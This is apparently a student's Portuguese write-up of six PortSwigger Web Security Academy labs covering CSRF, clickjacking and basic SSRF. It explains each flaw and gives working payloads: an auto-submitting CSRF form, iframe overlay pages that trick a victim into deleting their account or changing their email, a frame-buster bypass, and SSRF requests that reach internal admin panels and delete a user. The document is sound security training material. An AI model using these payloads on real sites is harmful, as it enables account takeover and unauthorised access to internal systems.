# PortSwigger Labs — CSRF, Clickjacking e Basic SSRF

> Resolvidos em 02/10/2026 — Web Security Academy

---

## 1. CSRF vulnerability with no defenses



### Para que serve essa vulnerabilidade
CSRF (Cross-Site Request Forgery) permite que um atacante force o navegador de uma vítima já autenticada a enviar uma requisição não intencional para um site onde ela tem sessão ativa. O servidor confia apenas no cookie de sessão e não verifica se a requisição realmente partiu de uma ação do usuário — então qualquer site malicioso pode "forjar" essa ação em nome dela (trocar email, senha, fazer transferências, etc).

### Como foi feito o exploit
1. Login na conta (`wiener:peter`) e uso da função "Update email", capturando a requisição no Burp para confirmar que não há token CSRF.
2. Criado um HTML com um `<form>` oculto apontando para `/my-account/change-email`, que se auto-envia via JavaScript assim que a página carrega:
   ```html
   <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
       <input type="hidden" name="email" value="anything@web-security-academy.net">
   </form>
   <script>
       document.forms[0].submit();
   </script>
   ```
3. HTML hospedado no exploit server (Store).
4. Testado em si mesmo via "View exploit" para confirmar que o email mudava.
5. Email do payload trocado para não coincidir com o já usado.
6. "Deliver to victim" — ao abrir a página, a vítima tem seu email trocado automaticamente usando sua própria sessão (cookie), sem perceber.

---

## 2. Basic clickjacking with CSRF token protection



### Para que serve essa vulnerabilidade
Clickjacking engana o usuário para que ele clique em algo diferente do que pensa estar clicando, sobrepondo uma página real (carregada em um iframe invisível) a um elemento "isca" visível. Mesmo com proteção CSRF, a ação ainda é disparada porque é o próprio navegador da vítima, autenticado, que realiza o clique real — só que sem saber.

### Como foi feito o exploit
1. Login na conta própria.
2. Montado um HTML com um `<iframe>` carregando `/my-account` por cima (quase transparente) e uma `<div>` "Test me" por baixo, usando CSS para alinhar os dois:
   ```html
   <style>
       iframe {
           position:relative;
           width:500px;
           height:700px;
           opacity:0.1;
           z-index: 2;
       }
       div {
           position:absolute;
           top:555px;
           left:55px;
           z-index: 1;
       }
   </style>
   <div>Click me</div>
   <iframe src="https://LAB-ID.web-security-academy.net/my-account"></iframe>
   ```
3. Alinhamento ajustado passo a passo comparando a posição do "Test me" com o botão real "Delete account" por trás do iframe:

   
   
   

4. Confirmado o alinhamento (cursor vira "mão" sobre o botão real), opacity reduzida para `0.0001` e texto trocado para "Click me":

   

5. "Deliver exploit to victim" — a vítima clica em "Click me" pensando ser algo inofensivo, mas na verdade clica no botão invisível "Delete account", usando a própria sessão dela.

   

---

## 3. Clickjacking with form input data prefilled from a URL parameter



### Para que serve essa vulnerabilidade
Variante do clickjacking clássico: o campo do formulário vem pré-preenchido por um parâmetro na própria URL, sem precisar de JavaScript. Isso mostra como parâmetros de URL não confiáveis podem ser usados para injetar dados em um form que a vítima nem vê, bastando fazê-la clicar no botão de confirmação.

### Como foi feito o exploit
1. Login na conta própria.
2. HTML com iframe carregando `/my-account` já com o email embutido via query string, e a isca alinhada sobre o botão **"Update email"**:
   ```html
   <style>
       iframe {
           position:relative;
           width:500px;
           height:700px;
           opacity:0.1;
           z-index: 2;
       }
       div {
           position:absolute;
           top:400px;
           left:80px;
           z-index: 1;
       }
   </style>
   <div>Click me</div>
   <iframe src="https://LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
   ```
3. Store → View exploit, alinhamento ajustado, opacity reduzida para `0.0001`.
4. Email do payload trocado para um ainda não usado na conta.
5. Deliver exploit to victim — a vítima clica em "Click me" (visualmente sobre o botão "Update email"), e o formulário já pré-preenchido com o email do atacante é enviado usando a sessão dela.

---

## 4. Clickjacking with a frame buster script



### Para que serve essa vulnerabilidade
Mostra que proteções client-side (como um frame buster em JavaScript, que tenta detectar se a página está dentro de um iframe e "escapar" dele) não são suficientes, pois podem ser neutralizadas desabilitando a execução de scripts dentro do iframe.

### Como foi feito o exploit
1. Login na conta própria.
2. Mesmo esquema de clickjacking anterior, mas com o atributo `sandbox="allow-forms"` no iframe — isso bloqueia a execução de JavaScript dentro dele (neutralizando o frame buster), mas ainda permite o envio de formulários:
   ```html
   <style>
       iframe {
           position:relative;
           width:500px;
           height:700px;
           opacity:0.1;
           z-index: 2;
       }
       div {
           position:absolute;
           top:385px;
           left:80px;
           z-index: 1;
       }
   </style>
   <div>Click me</div>
   <iframe sandbox="allow-forms" src="https://LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
   ```
3. Store → View exploit, alinhamento ajustado sobre o botão "Update email", opacity reduzida para `0.0001`, email trocado.
4. Deliver exploit to victim.



---

## 5. Basic SSRF against the local server



### Para que serve essa vulnerabilidade
SSRF (Server-Side Request Forgery) ocorre quando o servidor faz requisições HTTP a partir de um input controlado pelo usuário, sem validação. Isso permite acessar recursos internos que não deveriam ser expostos externamente — como painéis administrativos restritos a `localhost` — usando o próprio servidor como "proxy".

### Como foi feito o exploit
1. Tentativa de acesso direto a `/admin` — bloqueado, pois só aceita requisições vindas de loopback:

   

2. Em um produto, clique em "Check stock", requisição interceptada no Burp e enviada ao Repeater.
3. O parâmetro `stockApi` do corpo da requisição foi trocado para:
   ```
   http://localhost/admin
   ```
   Como a requisição passa a ser feita pelo próprio servidor, o painel admin responde normalmente.
4. No HTML retornado, identificado o link de exclusão de usuário:

   

5. `stockApi` trocado para:
   ```
   http://localhost/admin/delete?username=carlos
   ```
6. Requisição enviada — usuário `carlos` deletado, lab resolvido.

   

---

## 6. Basic SSRF against another back-end system



### Para que serve essa vulnerabilidade
Extensão do SSRF anterior: o sistema admin não está mais em `localhost`, mas em outra máquina na rede interna, com IP desconhecido. Demonstra como SSRF pode ser combinado com varredura de rede (port/host scanning) para mapear infraestrutura interna inacessível de fora.

### Como foi feito o exploit
1. Em um produto, "Check stock", requisição interceptada e enviada ao **Burp Intruder**.
2. `stockApi` definido como `http://192.168.0.1:8080/admin`, com o último octeto do IP marcado como posição de payload.
3. Payload configurado como tipo **Numbers**, de `1` a `255`, step `1`:

   

4. Ataque disparado, varrendo toda a faixa `192.168.0.1` – `192.168.0.255` na porta 8080.
5. Resultados ordenados pela coluna **Status code** — identificado um único `200` em meio aos demais (erro/timeout), no IP `192.168.0.239`:

   

6. Requisição correspondente enviada ao Repeater, `stockApi` ajustado para:
   ```
   http://192.168.0.239:8080/admin/delete?username=carlos
   ```
7. Requisição enviada — usuário `carlos` deletado, lab resolvido.

   
